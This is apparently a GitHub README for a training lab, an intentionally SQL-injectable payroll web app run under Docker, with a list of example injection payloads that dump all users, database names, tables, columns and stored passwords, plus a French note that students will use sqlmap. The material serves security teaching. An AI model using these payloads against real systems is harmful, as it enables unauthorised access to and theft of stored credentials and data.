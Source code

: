 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Lancement


docker-compose up --env-file .env -d

Open web browser and visit:

- `http://localhost:8080`


## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all server databases

   - `username`: `' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata; #`
   - `password`: `anythingyouwant`

5. Dump all tables in a database (here: capturethefenelon)

   - `username`: `' UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='capturethefenelon' #`
   - `password`: `anythingyouwant`

6. Dump all columns names in a table (here: users)

   - `username`: `' UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`
   - `password`: `anythingyouwant`

7. Dump all data in a table (here: users)

   - `username`: `' UNION ALL SELECT NULL,concat(0x28,username,0x3a,first_name,0x3a,last_name,0x3a,password,0x29) FROM users #`
   - `password`: `anythingyouwant`




Doivent le faire avec sqlmap
Fournir le TP sqlmap